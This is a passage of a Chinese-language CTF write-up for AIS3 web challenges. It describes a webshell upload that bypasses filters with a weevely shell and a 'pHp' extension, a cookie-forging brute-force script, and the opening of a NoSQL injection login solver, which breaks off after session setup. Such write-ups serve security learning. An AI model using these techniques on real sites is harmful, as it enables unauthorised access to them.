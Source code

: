 * 簡單來說就是要上傳 webshell，稍微看一下
  * 會過濾內容，例如說你有 `system` 什麼的函式會被 ban
  * 會過濾副檔名，例如說 `php` 之類的

#### Solution

* 這一題我的作法滿簡單的，直接用 weevely 的 shell，之後副檔名的部分我本來想的有點太多了，其實就一個 `pHp` 的副檔名就可以跑了

### Poking Bear

> 100
> baby

* 稍微觀察一下可以看到 secret bear 是在 350 ~ 777 之間，鎖定 secret bear 的位置之後可以看到 cookie 是 `human=human` 然後說 `You can't poke SECRET BEAR since you are not "bear poker"`，把 cookie 改成 `human=bear poker` 就可以了

#### Solution

```python=
import requests

url = 'http://chals1.ais3.org:8987/poke'

for i in range(350, 777):
    response = requests.post(url, data={
        "bear_id": str(i)
    }, cookies={
        "human": "bear poker"
    })
    print(i)
    print(response.text)
    if "nothing happened" not in response.text and "poke a cat" not in response.text:
        print(response.text)
        break
```

### The Best Login UI

> 432
> easy

* 這題考的是 nosql injection，比較麻煩的是一開始在寫扣的時候沒有考慮到他的 regex 的部分，導致少了很多括號 = =
* 參考 https://book.hacktricks.xyz/pentesting-web/nosql-injection

#### Solution

```python=
import requests
import urllib3
import string
import urllib
import time
from requests.adapters import HTTPAdapter
from requests.packages.urllib3.util.retry import Retry
import random

urllib3.disable_warnings()

username="admin"
password="AIS3{"
url = "http://chals1.ais3.org:54088/login"
requests.adapters.DEFAULT_RETRIES = 5
s = requests.session()
s.keep_alive = False
retry = Retry(connect=3, backoff_factor=1)
adapter = HTTPAdapter(max_retries=retry)
s.mount('http://', adapter)
```